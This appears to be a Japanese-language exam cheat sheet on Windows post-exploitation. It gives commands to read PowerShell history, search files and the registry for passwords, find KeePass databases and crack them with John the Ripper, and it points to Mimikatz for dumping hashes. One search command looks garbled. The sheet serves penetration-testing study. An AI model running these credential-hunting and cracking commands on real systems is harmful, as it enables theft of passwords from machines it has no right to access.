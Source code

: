 # 目次
1. [Post Exploitation](#post-exploitation)
2. [Sensitive Information](#sensitive-information)
    - [Powershell History](#powershell-history)
    - [Searching for Passwords](#searching-for-passwords)
    - [Searching in Registry for Passwords](#searching-in-registry-for-passwords)
    - [KDBX Files](#kdbx-files)
3. [Dumping Hashes](#dumping-hashes)

---

## Post Exploitation

これは特にWindowsに特化した情報で、試験に特化しています。

💡 **Run WinPEAS.exe** - このツールを実行することで、より詳細な情報が得られる場合があります。特権ユーザーとして様々なファイルにアクセスできるため、いくつかの利点があります。

---

## Sensitive Information

### Powershell History

PowerShellの履歴を表示するには、次のコマンドを実行します：

```bash
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**例:**

```bash
type C:\Users\sathvik\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Searching for Passwords

パスワードを含むファイルを検索する方法：

```bash
dir .s *pass* == *.config
findstr /si password *.xml *.ini *.txt
```

### Searching in Registry for Passwords

レジストリ内でパスワードを検索するには、次のコマンドを使用します：

```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### KDBX Files

**💡** 文書フォルダーを常に確認してください。ここに重要なファイルが含まれている可能性があります。

**KeyPassX** パスワード保存ファイル（.kdbxファイル）を検索する方法：

```bash
cmd> dir /s /b *.kdbx
Ps> Get-ChildItem -Recurse -Filter *.kdbx
```

**Cracking:**

```bash
keepass2john Database.kdbx > keepasshash
john --wordlist=/home/sathvik/Wordlists/rockyou.txt keepasshash
```

---

## Dumping Hashes

1. **Mimikatz**: パスワードやハッシュをダンプするためのツール。
2. **ドメイン参加済みのマシンの場合**: AD（Active Directory）用のポストエクスプロイテーション手順に従います。
![image](https://github.com/user-attachments/assets/c5eaaef3-505c-4296-a1ce-d84a37e1a706)
